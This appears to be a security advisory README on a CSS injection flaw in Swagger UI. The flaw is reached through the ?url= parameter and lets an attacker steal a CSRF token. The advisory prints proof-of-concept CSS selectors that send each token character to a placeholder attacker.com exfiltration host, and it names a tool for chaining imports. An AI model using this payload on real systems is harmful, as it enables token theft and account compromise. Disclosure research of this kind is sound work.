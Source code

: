 # CSS-injection-in-Swagger-UI

We have found a CSS Injection vulnerability on Swagger UI that allows attacker to use the Relative Path Overwrite (RPO) [2][3]technique to perform CSS-based input field value exfiltration. In our PoC, we were able to successfully steal the value of the CSRF token.

**Researcher: Kevin (DatLP) of The Tarantula Team, VinCSS (a member of Vingroup)**

## What is Swagger UI

Swagger UI allows anyone — be it your development team or your end consumers — to visualize and interact with the API’s resources without having any of the implementation logic in place. It’s automatically generated from your OpenAPI (formerly known as Swagger) Specification, with the visual documentation making it easy for back end implementation and client side consumption [1].

## Background

We've discovered the vulnerability when reading the following in the document of Swagger:

```
We’ve observed that the ?url= parameter in SwaggerUI allows an aacker to override an otherwise hard‐coded schema file
The decision was made to put this in the public issue tracker because (a) we aren’t going to immediately fix this, and (b) the aack surface for this is significantly diminished by our effecve sanizaon efforts to deter XSS aacks in documents used as input.
```
Swagger had known the issue, but Swagger thought that this vulnerability could not lead to an Cross-Site Scripting (XSS) exploit, so they ignored it. So we have decided to further research on this issue. 

### Injection step:

We realize that Swagger UI allows users to embed untrusted Json from remote servers 

```javascript
var url = window.location.search.match(/url=([^&]+)/);
// ...
url = options.swaggerUrl || url
// ...
var swaggerOptions = {
    spec: spec1,
url: url, // ...
}
var ui = SwaggerUIBundle(swaggerOptions)
```

This means we can inject json via the GET parameter. In the json content we use the <style> tag and CSS @import rule to load the CSS payload:
    
![](PoC-RPO-1.png)
    
### Exfiltration step:

With CSS payload, we can use Relative Path Overwrite (RPO) technique to perform CSS-based input field value exfiltration [4]. The following CSS code will generate a callback query to the attacker's server (https://attacker.com/exfil/a) if the CSRF token value starts with the character a, similarly it will make other requests (https://attacker.com/exfil/b; (https://attacker.com/exfil/c; https://attacker.com/exfil/d, etc) if the CSRF token value begins with character b, character c or character d:

```css
input[name=csrf][value^=a]{
    background-image: url(https://attacker.com/exfil/a);
}
input[name=csrf][value^=b]{
    background-image: url(https://attacker.com/exfil/b);
}
...
input[name=csrf][value^=9]{
    background-image: url(https://attacker.com/exfil/9);
```
And after we have found the first character in the CSRF token value, we will continue to search for the second character and so on:

```css
input[name=csrf][value^=aa]{
    background-image: url(https://attacker.com/exfil/ca);
}
input[name=csrf][value^=ab]{
    background-image: url(https://attacker.com/exfil/cb);
}
 ...
input[name=csrf][value^=a9]{
    background-image: url(https://attacker.com/exfil/c9);
```

With sequential @import chaining as below so we can steal full of CSRF token value:

![](sequential import chaining.png)

You can automate all this by using the [sic](https://github.com/d0nutptr/sic) tool [6]

    
## Tested versions
Swagger UI v3.23.10 and older versions

## Disclosure timeline



## Reference

1. [ Swagger UI | API Development Tools | Swagger](https://swagger.io/tools/swagger-ui/)
2. [Detecting and exploiting path‐relative stylesheet import (PRSSI) vulnerabilities | PortSwigger Research](https://portswigger.net/research/detecting-and-exploiting-path-relative-stylesheet-import-prssi-vulnerabilities)
3. [RPO](http://www.thespanner.co.uk/2014/03/21/rpo/)
4. [Exfiltration via CSS Injection](https://medium.com/bugbountywriteup/exfiltration-via-css-injection-4e999f63097d)
5. [Attribute selectors](https://developer.mozilla.org/en-US/docs/Web/CSS/Attribute_selectors)
6. [GitHub ‐ d0nutptr/sic: A tool to perform Sequential Import Chaining](https://github.com/d0nutptr/sic)
7. [Better Exfiltration via HTML Injection ‐ d0nut ‐ Medium](https://medium.com/@d0nut/better-exfiltration-via-html-injection-31c72a2dae8b)
8. [2019‐s3_css_injection_attacks.pdf](https://vwzq.net/slides/2019-s3_css_injection_attacks.pdf)
9. [RPO Gadgets](https://blog.innerht.ml/rpo-gadgets/)
10. [add an `enableQueryConfig` option issue #4872](https://github.com/swagger-api/swagger-ui/issues/4872)


